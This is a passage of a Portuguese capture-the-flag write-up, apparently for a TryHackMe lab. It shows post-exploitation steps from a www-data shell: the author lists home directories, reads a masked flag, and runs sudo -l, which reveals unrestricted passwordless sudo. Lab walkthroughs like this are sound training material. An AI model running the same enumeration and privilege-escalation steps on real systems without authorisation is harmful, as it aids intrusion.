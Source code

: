 ## Pós-Exploração
### Movimentação lateral
Acessei a home do usuário `rick` e encontrei o **segundo ingrediente:** 
``` console
$ pwd
pwd
/var/www/html
$ cd /home      
cd /home
$ ls -larth
ls -larth
total 16K
drwxr-xr-x  4 root   root   4.0K Feb 10  2019 .
drwxrwxrwx  2 root   root   4.0K Feb 10  2019 rick
drwxr-xr-x  5 ubuntu ubuntu 4.0K Jul 11  2024 ubuntu
drwxr-xr-x 23 root   root   4.0K Jun 11 23:09 ..
$ cd rick
cd rick
$ ls -larth
ls -larth
total 12K
drwxr-xr-x 4 root root 4.0K Feb 10  2019  ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 'second ingredients'
drwxrwxrwx 2 root root 4.0K Feb 10  2019  .
$ cat 'second ingredients'
cat 'second ingredients'
THM{* ***** ****}
```

Durante a enumeração local no diretório `/home/ubuntu`, identifiquei o arquivo `.sudo_as_admin_successful`. Sua presença indica que o usuário `ubuntu` já executou comandos com sudo com êxito, o que pode representar uma potencial brecha para **escalada de privilégio**.
``` console
$ ls -larth /home/ubuntu
ls -larth /home/ubuntu
total 44K
-rw-r--r-- 1 ubuntu ubuntu 3.7K Aug 31  2015 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
drwx------ 2 ubuntu ubuntu 4.0K Feb 10  2019 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Feb 10  2019 .sudo_as_admin_successful
drwxr-xr-x 4 root   root   4.0K Feb 10  2019 ..
-rw------- 1 ubuntu ubuntu 4.2K Feb 10  2019 .viminfo
drwx------ 3 ubuntu ubuntu 4.0K Jul 11  2024 .gnupg
drwxr-xr-x 5 ubuntu ubuntu 4.0K Jul 11  2024 .
drwx------ 3 ubuntu ubuntu 4.0K Jul 11  2024 .cache
-rw------- 1 ubuntu ubuntu  769 Jul 11  2024 .bash_history
```
Com base nessa descoberta, decidi verificar quais comandos o usuário atual `www-data` poderia executar com privilégios elevados, na tentativa de escalar para o usuário `ubuntu`.
``` console
$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-189-231:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-189-231:
    (ALL) NOPASSWD: ALL
```
